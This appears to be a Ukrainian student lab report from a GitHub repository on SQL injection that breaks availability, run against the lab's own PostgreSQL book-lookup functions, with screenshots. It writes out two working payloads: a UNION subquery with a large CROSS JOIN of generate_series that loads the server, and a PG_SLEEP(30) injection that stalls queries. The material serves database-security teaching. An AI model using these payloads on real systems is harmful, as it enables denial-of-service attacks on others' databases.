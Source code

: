 ## 2.2.5 Створити виклики функції з SQL-ін'єкціями з порушень доступності, приклади яких представлені в теоретичних відомостях. Створити знімки екранів з результатами виконання викликів функції та розмітити їх у файлі access_results.md у GitHub-репозиторії.

#### Приклад SQL-ін'єкції порушення доступності: 
− включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер; <br>


ALTER TABLE books ALTER COLUMN publisher TYPE varchar;  <br>
select * from get_books_by_name2 ('1'' UNION  <br>
(select a1, cast (a1 as varchar), cast (a1 as varchar)  <br>
from  <br>
(Select generate_series a1 from generate_series (1,1000)) t1  <br>
CROSS JOIN  <br>
(Select * from generate_series (1,1000) t2) t3) -- ');  <br>


![8_12](https://user-images.githubusercontent.com/120367818/213998116-68fd470d-8399-4ae7-88f9-7482eed35435.png)


#### Приклад SQL-ін'єкції порушення доступності: 
− включення включення підзапиту зі сплячим процесом.; <br>

#### Початок запиту: 

select * from get_books_by_name1 ('1'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');

![8_13](https://user-images.githubusercontent.com/120367818/213998358-d790ea94-3d5d-4394-b356-95fcff98fd54.png)

#### Кінцевий результат запиту: 

![8_14](https://user-images.githubusercontent.com/120367818/213998480-df6b611e-6e9d-4ceb-affa-b47d58de0d1f.png)
